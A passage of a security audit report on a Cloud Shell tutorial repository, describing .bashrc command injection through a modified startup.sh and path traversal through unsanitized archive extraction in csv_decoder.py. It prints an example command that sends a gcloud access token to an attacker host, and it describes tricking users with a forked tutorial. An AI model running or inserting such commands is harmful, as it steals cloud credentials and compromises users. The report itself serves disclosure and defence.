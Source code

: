 - Source code analysis:
    - File: `/code/startup.sh`
    - Line:
    ```bash
    echo "PATH=\$PATH:$HOME/.local/bin" >> $HOME/.bashrc
    ```
    - This line appends the specified `PATH` modification command to the user's `.bashrc` file.
    - A malicious actor can replace this line with any arbitrary command injection, for example:
    ```bash
    echo "curl -X POST -d \$(gcloud auth print-access-token) https://attacker.example.com/steal-token" >> $HOME/.bashrc
    ```
    - When the user executes the modified `startup.sh`, this malicious `echo` command will append the command to exfiltrate the access token to the attacker's server to `.bashrc`.
    - Upon next Cloud Shell startup, `.bashrc` is sourced, and the malicious command will be executed, sending the access token to the attacker.

- Security test case:
    1. Fork the repository on GitHub.
    2. Edit the `/code/startup.sh` file in the forked repository. Replace the line `echo "PATH=\$PATH:$HOME/.local/bin" >> $HOME/.bashrc` with `echo "echo 'Vulnerable' > /tmp/vulnerable.txt" >> $HOME/.bashrc`. Commit the change.
    3. Create a new Google Cloud project for testing purposes.
    4. In your browser, navigate to the forked repository on GitHub.
    5. Click the "Open in Cloud Shell" button in the README.md of your forked repository. This will open a Cloud Shell session with the code from your forked repository.
    6. In the Cloud Shell terminal, execute the command: `source startup.sh <your-project-id>` (replace `<your-project-id>` with the ID of your test project).
    7. Close the current Cloud Shell session by typing `exit` and pressing Enter.
    8. Open a new Cloud Shell session.
    9. In the new Cloud Shell session, check if the file `/tmp/vulnerable.txt` exists and contains the text "Vulnerable" by running: `cat /tmp/vulnerable.txt`.
    10. If the file exists and contains "Vulnerable", the vulnerability is confirmed. This demonstrates that arbitrary commands can be injected into `.bashrc` via a modified `startup.sh` and will be executed in subsequent Cloud Shell sessions.

### Vulnerability 2: Path Traversal in Archive Extraction in csv_decoder.py

- Description:
    1. A malicious actor forks the repository.
    2. The attacker crafts a malicious archive file (ZIP or TAR) containing filenames with path traversal sequences, such as `../../../tmp/evil_file.txt`. This filename is designed to write a file outside of the intended extraction directory.
    3. The attacker modifies the `tutorial.md` in the forked repository to subtly encourage or trick the victim user into uploading this malicious archive file as historical data.
    4. The attacker convinces a victim user to use the modified tutorial from the forked repository (as described in Vulnerability 1).
    5. The victim user, following the tutorial, uploads the malicious archive file when prompted to provide historical data.
    6. The `csv_decoder.py` script, specifically the `TarfileDecoder` or `ZipfileDecoder` class, extracts the uploaded archive using `extractall()` without properly sanitizing filenames.
    7. Due to the path traversal sequences in the malicious filenames, files are extracted to locations outside the intended temporary extraction directory, potentially overwriting existing files or creating new files in arbitrary locations accessible by the Cloud Shell user. In this example, the file `evil_file.txt` would be written to `/tmp/evil_file.txt`.
